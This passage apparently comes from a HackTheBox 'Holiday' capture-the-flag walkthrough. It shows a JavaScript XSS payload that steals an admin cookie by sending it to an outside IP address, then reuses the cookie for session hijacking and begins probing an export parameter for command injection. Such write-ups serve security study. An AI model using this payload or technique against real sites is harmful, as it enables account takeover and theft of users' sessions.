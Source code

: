 ### Session Hijacking

So, we need to grab it with our js payload...

```js
function getAdmin() {
	var req1=new XMLHttpRequest(); 
	req1.open('GET', '#admin' , true); 
	req1.onreadystatechange = function () { 
		if (req1.readyState === req1.DONE) {
			if (req1.status === 200) { 
				 var req2=new XMLHttpRequest(); 
				req2.open('GET', 'http://10.10.14.20:9090?xss=' + encodeURI(document.getElementsByName("cookie")[0].value), true);
				req2.send(); 
				}
			}
		}; 
	req1.send();
}

getAdmin();
```

And we send the payload again, and the XSS triggered gave me the cookie I need

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2007:45:45.png)

Now what I need to do is re-use this cookie on my page and see what I can do as admin

We URL decode it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2007:47:58.png)

And reuse it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2007:48:16.png)

Now we have access to the admin page

### Hunting RCE

Now, let's start hunting a RCE on this box

We send the request to burp and see what is happening with it

We send `/admin/export?table=!@$%^&` to see bad chars and allowed chars

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2007:52:48.png)

For my surprise I see that the character `&` is allowed on the server, it's used to send commands to background in linux systems, so I'll try to run a command with it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2007:53:49.png)
